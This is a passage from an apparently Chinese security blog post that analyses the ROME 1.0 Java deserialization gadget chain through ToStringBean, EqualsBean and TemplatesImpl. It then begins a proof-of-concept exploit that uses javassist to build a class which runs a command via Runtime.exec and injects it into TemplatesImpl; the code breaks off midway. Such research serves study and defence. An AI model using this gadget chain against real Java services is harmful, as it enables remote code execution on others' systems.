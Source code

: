 #### ToStringBean
`com.sun.syndication.feed.impl.ToStringBean`类从名字可以看出，这个类给对象提供 toString 方法，类中有两个 toString 方法，第一个是无参的方法，获取调用链中上一个类或`_obj`属性中保存对象的类名，并调用第二个 toString 方法
![](https://img-blog.csdnimg.cn/5ff395f35e8b4be7a9d9967d80c2d028.png)
第二个 toString 方法会调用`BeanIntrospector.getPropertyDescriptors()`来获取`_beanClass`的全部 getter/setter 方法，然后判断参数长度为 0 的方法，获取对应的Method，如果它是无参的就使用`_obj`实例进行反射调用
意思就是会调用所有 getter 方法拿到全部属性值，然后打印出来
![](https://img-blog.csdnimg.cn/22f45971bc394d929231d4ffa090567b.png)
由此可见，ToStringBean 的`toString()`方法可以触发其中`_obj`实例的全部 getter 方法，可以用来触发 TemplatesImpl 的利用链，调用TemplatesImpl的`getOutputProperties`进行动态加载字节码来实现命令执行

#### EqualsBean
在EqualsBean 里，存在与ToStringBean相似的利用，beanEquals 方法
![](https://img-blog.csdnimg.cn/ff375f1a4b874a23a2d545106df12d1e.png)
这样可以反射调用getter方法，可以发现equals 方法调用了 beanEquals方法
![](https://img-blog.csdnimg.cn/fb56c2e3ec0540e4957472d305317c38.png)

### 攻击构造
>依赖版本
rome : 1.0


利用 HashMap 反序列化触发 ObjectBean 的 hashCode 方法，再触发 ObjectBean 封装的 ObjectBean 的 toString 方法
```java
package rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ObjectBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Rome {
    public static void main(String[] args) throws Exception {

        // 生成包含恶意类字节码的 TemplatesImpl 类
        // 读取恶意类 bytes[]
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        ClassPool classPool=ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass payload=classPool.makeClass("rome1");
        payload.setSuperclass(classPool.get(AbstractTranslet));
        payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes=payload.toBytecode();

        // 初始化 TemplatesImpl 对象
        TemplatesImpl tmpl = new TemplatesImpl();
        Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(tmpl, new byte[][]{bytes});
        // _name 不能为空
        Field name = TemplatesImpl.class.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmpl, "name");
```